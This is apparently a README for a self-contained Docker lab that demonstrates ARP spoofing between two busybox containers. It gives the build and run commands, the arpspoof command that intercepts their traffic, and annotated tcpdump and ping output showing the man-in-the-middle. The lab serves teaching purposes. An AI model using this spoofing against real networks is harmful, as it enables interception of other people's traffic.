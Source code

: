 # ARP Spoofing Lab in Docker

We create:
- Two "victim" boxes.
- One "attacker" ArpSpoofer.
- An optional "observer" TcpDumper that can be attached to different network interface.

Inspired from https://dockersec.blogspot.com/2017/01/arp-spoofing-docker-containers_26.html 


## Build
  
```
sudo docker build --tag=arpspoofer --build-arg http_proxy=$http_proxy --build-arg https_proxy=https_proxy  arpspoofer
sudo docker build --tag=tcpdumper  --build-arg http_proxy=$http_proxy --build-arg https_proxy=$https_proxy tcpdumper
```

Note: I tried `docker-compose`, but to open terms, a simple script is easier.


## Run
 
Launch 4 terminals:
```
gnome-terminal --title='Box1' -- sudo docker run -it --rm --name box1 busybox
gnome-terminal --title='Box2' -- sudo docker run -it --rm --name box2 busybox
gnome-terminal --title='ArpSpoofer' -- sudo docker run -it --rm --name arpspoofer arpspoofer
gnome-terminal --title='TcpDumper'  -- sudo docker run -it --rm  --net=container:arpspoofer --name tcpdumper tcpdumper
```

1. Check the IPs in Box1 and 2 `ip addr` 
1. Watch the ARP table on Box1 `watch ip neigh`
1. Start pinging Box1 from Box2 `ping 172.17.0.x` (replace with Box1 IP)

Usually we would spoof the gateway, but here we spoof both hosts. Since they are on the same LAN, they do not need the Gateway to communicate. (Replace IP with Box1 and 2!)
`/usr/sbin/arpspoof -r -i eth0 -t 172.17.0.x 172.17.0.y`

You should see the traffic in TcpDumper (note that the container can be attached to other boxe's network). You can also capture traffic from within the host on bridge `Docker0` with Wireshark. 

### SELinux and tcpdump

TcpDump might not work with SELinux enabled. But: TcpDump is optional (you can use WireShark) and you can either temporarily disble SELinux or add an exception `sudo semodule -X 300 -i selinux/my-tcpdump.pp` (you can remove it after with `-r` instead of `-i`)


## Observations
  
Keep in mind that it is a very simple attack. We didn't do anything to be stealthy. 

The capture file is `result.pcapng`. Capture was done on the host's bridge `Docker0`.

- Box1 has 172.17.0.2 02:42:ac:11:00:02
- Box2 has 172.17.0.3 02:42:ac:11:00:03
- ArpSpoofer has 172.17.0.4 02:42:ac:11:00:04
- TcpDump has the same as ArpSpoofer 

### ping side
 
No errors. The only hint is the `ttl` decreasing from 64 to 63. 
```
64 bytes from 172.17.0.2: seq=12 ttl=64 time=0.147 ms
64 bytes from 172.17.0.2: seq=13 ttl=64 time=0.149 ms
64 bytes from 172.17.0.2: seq=14 ttl=63 time=0.516 ms
64 bytes from 172.17.0.2: seq=15 ttl=63 time=0.439 ms
...
64 bytes from 172.17.0.2: seq=129 ttl=64 time=0.153 ms
^C
--- 172.17.0.2 ping statistics ---
130 packets transmitted, 130 packets received, 0% packet loss
round-trip min/avg/max = 0.058/0.207/0.859 ms

```

### Tcpdump side

We can see the "nefarious" ARP messages:
```
10:41:37.882841 ARP, Reply 172.17.0.2 is-at 02:42:ac:11:00:04, length 28
10:41:37.883033 ARP, Reply 172.17.0.3 is-at 02:42:ac:11:00:04, length 28 
```

Here we see the ICMP messages:
```
10:41:38.095909 IP 172.17.0.3 > 172.17.0.2: ICMP echo request, id 2304, seq 14, length 64
10:41:38.095962 IP 172.17.0.4 > 172.17.0.3: ICMP redirect 172.17.0.2 to host 172.17.0.2, length 92
10:41:38.095970 IP 172.17.0.3 > 172.17.0.2: ICMP echo request, id 2304, seq 14, length 64
10:41:38.096039 IP 172.17.0.2 > 172.17.0.3: ICMP echo reply, id 2304, seq 14, length 64
10:41:38.096051 IP 172.17.0.4 > 172.17.0.2: ICMP redirect 172.17.0.3 to host 172.17.0.3, length 92
10:41:38.096055 IP 172.17.0.2 > 172.17.0.3: ICMP echo reply, id 2304, seq 14, length 64
```
We can see:
- Box2 request goes to ArpSpoofer
 - ArpSpoofer sends an ICMP redirect, telling Box2 to request Box1. 
 - ArpSpoofer forwards the packet to Box1 (decreases `ttl`)
- Box1 reply goes to ArpSpoofer
 - ArpSpoofer sends an ICMP redirect, telling Box1 to reply to Box2
 - ArpSpoofer forwards the packet to Box2 (decreases `ttl`)

You can select the same sequence in Wireshark with `icmp.seq == 14`. Wireshark interpretation is a bit off.

Box1 receives the ICMP redirect after it already has sent the reply. Looks like it is then ignored. 

## Cleanup

By default Docker will keep images and containers.
Here are some docker commands if you are not familiar with them:
- `sudo docker <image|container> ls -a` will show images or containers
- `sudo docker <image|container> prune` will remove unused images or containers.

Note that the `--rm` option in the run, tells docker to remove the container after use. It is normal if there are no container after running the lab.

Do not forget to eventually `sudo setenforce Enforcing` or remove the SELinux module if you installed it.

## Todo

- Use `export IP_BOX1=$(sudo docker inspect --format '{{.NetworkSettings.IPAddress}}' box1)` to get IP addresses, then use `sudo docker exec box2 sh -c "ping -c3 $IP_BOX1"`
- Tried, does not set the Terminal title, hence is useless:  _Use hostnames `... run -h box1 ...` (might simplify terminal titles, and if there is a DNS would be even better)_


